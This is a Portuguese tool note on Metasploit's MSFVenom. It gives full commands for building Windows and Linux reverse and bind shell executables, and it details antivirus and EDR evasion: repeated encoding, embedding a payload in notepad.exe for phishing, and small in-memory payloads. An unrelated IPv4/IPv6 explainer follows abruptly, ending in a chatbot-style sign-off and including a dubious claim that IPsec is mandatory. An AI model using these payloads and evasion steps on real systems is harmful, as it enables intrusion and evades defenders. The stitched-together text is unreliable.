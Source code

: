 ```yaml
---
folder: "[[Tools]]"
---
```

O **MSFVenom** é uma ferramenta do **Metasploit** usada para gerar payloads e executáveis, combinando as funcionalidades de `msfpayload` e `msfencode`. Ele é essencial em testes de penetração para gerar payloads personalizados que podem ser usados em ataques direcionados.

## Estrutura Básica do MSFVenom

A estrutura básica do comando `msfvenom` é:

`msfvenom -p <payload> LHOST=<IP> LPORT=<Porta> -f <formato> -o <arquivo_saida>`

- **`-p` (Payload)**: Define o tipo de payload, por exemplo, `windows/meterpreter/reverse_tcp`.
- **`LHOST` e `LPORT`**: Define o IP e a porta que serão usados para a conexão reversa.
- **`-f` (Formato)**: Define o formato de saída, como `exe` para Windows, `elf` para Linux ou `raw` para código bruto de shellcode.
- **`-o` (Saída)**: Define o nome do arquivo de saída. Se não especificado, o output será exibido no console.

## Exemplos de Uso do MSFVenom

### Exemplo 1: Payload reverso para Windows

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o shell_reverse.exe`

### Exemplo 2: Payload de ligação para Linux

`msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=4444 -f elf -o bind_shell.elf`

### Exemplo 3: Payload em formato raw (somente shellcode)

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f raw -o shellcode.bin`

## Parâmetros Adicionais para Personalização

- **`-a`**: Define a arquitetura do payload, como `x86` ou `x64`.
- **`--platform`**: Especifica a plataforma alvo, como `windows`, `linux` ou `osx`.
- **`-e`**: Define o encoder para ofuscação do payload. Exemplo: `-e x86/shikata_ga_nai`.
- **`-i`**: Define o número de vezes que o encoder será aplicado, aumentando a dificuldade de detecção. Exemplo: `-i 5`.
- **`--bad-chars`**: Define caracteres a serem evitados no shellcode, como caracteres nulos `\x00`.
- **`-x`**: Insere o payload em um arquivo template (útil para mascarar o payload em executáveis comuns).

## Técnicas Anti-Detecção

Para evitar a detecção por antivírus e EDR (Endpoint Detection and Response), considere as seguintes técnicas:

### 1. Uso de Encoders

Encoders aplicam uma camada de codificação ao payload, dificultando a detecção por assinaturas. Exemplo:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -e x86/shikata_ga_nai -i 10 -f exe -o bypassed_shell.exe`

### 2. Template com `-x`

Permite incluir o payload em executáveis legítimos, como um instalador de software, útil em ataques de phishing:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -x notepad.exe -k -f exe -o hidden_shell.exe`

### 3. Ofuscação Avançada

Combine encoders e use formatos alternativos como `raw` ou `hex`, passando o código para scripts que geram executáveis posteriormente.

### 4. Payloads Menores e Códigos Customizados

Payloads menores ou personalizados podem evitar a detecção por assinatura. A opção `-s` limita o tamanho do payload:

`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -s 200 -f exe -o small_shell.exe`

### 5. Execução na Memória

Com o `Meterpreter`, é possível carregar e executar o payload diretamente na memória, sem escrita no disco, reduzindo a detecção.

## Dicas Finais para Evitar Detecção

- **Combine múltiplas técnicas**, como encoders e payloads customizados.
- **Teste em ambientes com antivírus** para ajustar as técnicas.
- **Utilize ferramentas pós-exploração do Meterpreter** para minimizar detecção durante a exploração.

**Endereçamento IPv4 e IPv6** são dois tipos de endereços IP usados na comunicação de dispositivos em redes de computadores. Vou detalhar cada um deles abaixo:

### Endereçamento IPv4

- **IPv4 (Internet Protocol version 4)** é a quarta versão do protocolo de Internet e a mais amplamente utilizada.
- Um **endereço IPv4** consiste em **32 bits** (ou 4 bytes), geralmente representados por quatro números decimais separados por pontos (por exemplo, 192.168.1.1). Cada número pode variar de 0 a 255.
- O IPv4 permite cerca de **4,3 bilhões de endereços únicos**, que estão se esgotando devido ao rápido crescimento da Internet e da quantidade de dispositivos conectados.
- Endereços IPv4 podem ser divididos em **classes** (A, B, C, D e E) e podem ser configurados em **redes públicas** ou **privadas**. O NAT (Network Address Translation) é comumente usado para prolongar o uso dos endereços IPv4, permitindo que vários dispositivos em uma rede local compartilhem um único endereço IP público.

### Endereçamento IPv6

- **IPv6 (Internet Protocol version 6)** é a versão mais recente do protocolo, desenvolvida para resolver a escassez de endereços IPv4.
- Um **endereço IPv6** possui **128 bits** (ou 16 bytes), geralmente representados por oito grupos de números hexadecimais separados por dois pontos (por exemplo, 2001:0db8:85a3:0000:0000:8a2e:0370:7334).
- O IPv6 suporta um número gigantesco de endereços únicos, estimado em cerca de **3,4 x 10^38**, o que é suficiente para acomodar o crescimento da Internet e todos os dispositivos futuros.
- O IPv6 possui algumas melhorias em relação ao IPv4, incluindo uma **configuração mais simplificada** (com suporte a autoconfiguração de endereços), **segurança aprimorada** e **gerenciamento mais eficiente de tráfego**.

### Comparação entre IPv4 e IPv6

|Característica|IPv4|IPv6|
|--------------|----|----|
|Comprimento do endereço|32 bits|128 bits|
|Formato|Decimal (ex.: 192.168.0.1)|Hexadecimal (ex.: 2001:db8::ff00:42)|
|Capacidade de endereços|~4,3 bilhões|~340 undecilhões|
|Configuração|DHCP ou manual|Autoconfiguração e DHCPv6|
|Suporte a NAT|Necessário (devido à falta de endereços)|Não necessário (devido à abundância de endereços)|
|Segurança|Opcional (IPSec)|Nativo (IPSec é obrigatório)|

O **IPv6** foi criado para atender às demandas futuras, enquanto o **IPv4** ainda é amplamente utilizado. Hoje, a transição do IPv4 para IPv6 está em andamento e muitos dispositivos e redes suportam ambos os tipos de endereçamento simultaneamente, utilizando um mecanismo chamado de **dual stack**.

Se precisar de mais detalhes sobre como funciona cada versão, fique à vontade para perguntar!

